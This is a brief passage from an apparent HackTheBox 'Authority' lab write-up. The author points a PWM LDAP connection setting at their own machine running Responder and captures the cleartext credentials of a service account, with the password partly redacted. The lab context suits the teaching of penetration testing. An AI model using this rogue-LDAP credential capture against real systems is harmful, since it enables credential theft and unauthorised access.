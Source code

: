 After running Responder, I enter an LDAP URL that points to my machine.

<img src="assets/posts/2025-01-17-HackTheBox-Authority/pwm-add-ldap-url.png" alt="PWM Add LDAP Connection String" width="1000"/>

I hit the `Test LDAP Profile` and see that I am able to capture user credentials for the `svc_ldap` domain account.

```bash
[...]
[+] Listening for events...

[LDAP] Cleartext Client   : 10.129.76.109
[LDAP] Cleartext Username : CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb
[LDAP] Cleartext Password : l[REDACTED]!
```
